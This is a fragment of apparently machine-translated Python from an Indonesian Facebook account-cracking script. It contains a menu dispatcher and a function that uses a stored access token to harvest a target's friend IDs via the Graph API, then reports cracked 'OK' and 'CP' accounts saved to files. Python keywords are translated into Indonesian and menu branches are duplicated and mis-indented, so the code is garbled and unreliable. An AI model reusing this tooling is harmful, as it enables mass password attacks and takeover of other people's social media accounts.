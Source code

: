 	elif  bertanya  ==  "6"  atau  bertanya  ==  "06" :
		cek_ingfo ()
	elif  bertanya  ==  "9"  atau  bertanya  ==  "99" :
		exit ( p + "Terima Kasih Telah Menggunakan Script Saya...:)" )
	lain :
		menu ()
		elif  bertanya  ==  "5"  atau  bertanya  ==  "05" :
		setua ()
	elif  bertanya  ==  "0"  atau  bertanya  ==  "00" :
		os . sistem ( "rm -f login.txt" )
		exit ( " \033 [0;97m[ \033 [0;96m# \033 [0;97m] Token Berhasil" )
	elif  bertanya  ==  "7"  atau  bertanya  ==  "07" :
		informasi ()
	elif  ask  ==  "kolis"  or  ask  ==  "mr.risky" :
		os . system ( "echo 'You Status Premium' >> .Status" )
		bot_komen ()
	elif  bertanya  ==  "6"  atau  bertanya  ==  "06" :
		cek_ingfo ()
	elif  bertanya  ==  "9"  atau  bertanya  ==  "99" :
		exit ( p + "Terima Kasih Telah Menggunakan Script Saya...:)" )
	lain :
		menu ()
	
def  publik ():
	 token global
	coba :
		token  =  buka ( 'login.txt' , 'r' ). baca ()
	kecuali  IOError :
		print ( ' \033 [0;97m[ \033 [0;91m! \033 [0;97m] Token Tidak Valid' )
		tokenz ()
	print ( " \n  \033 [0;97m[ \033 [0;93m* \033 [0;97m] Ketik 'me' jika ingin crack dari teman sendiri" )
	idt  =  raw_input ( " \033 [0;97m[ \033 [0;92m+ \033 [0;97m] ID Publik : " )
	coba :
		pok  =  permintaan . dapatkan ( "https://graph.facebook.com/" + idt + "?access_token=" + token )
		sp  =  json . beban ( pok . teks )
		print ( " \033 [0;97m[ \033 [0;92m+ \033 [0;97m] Nama : " + sp [ "nama" ])
	kecuali  KeyError :
		keluar ( ' \033 [0;97m[ \033 [0;91m! \033 [0;97m] ID Publik Tidak Ada!' )
	r  =  permintaan . dapatkan ( "https://graph.facebook.com/" + idt + "/friends?access_token=" + token )
	z  =  json . beban ( r . teks )
	untuk  i  in  z [ "data" ]:
		uid  =  saya [ 'id' ]
		nama  =  saya [ 'nama' ]
		id . tambahkan ( uid + '<=>' + nama )
	print ( " \033 [0;97m[ \033 [0;93m* \033 [0;97m] Jumlah ID : \033 [0;91m" + str ( len ( id )))
	ask  =  raw_input ( " \n  \033 [0;97m[ \033 [0;93m? \033 [0;97m] Anda ingin menggunakan Password Manual? Y/t : " )
	jika  bertanya  ==  "Y"  atau  bertanya  ==  "y" :
		panduan ()
	print ( " \033 [0;97m[ \033 [0;96m+ \033 [0;97m] Akun \033 [0;92mOK \033 [0;97m Disimpan Di : hasil/OK-%s-%s-% s.txt" % ( ha , op , ta ))
	print ( " \033 [0;97m[ \033 [0;96m+ \033 [0;97m] Akun \033 [0;93mCP \033 [0;97m Disimpan Di : hasil/CP-%s-%s-% s.txt \n " % ( ha , op , ta ))
	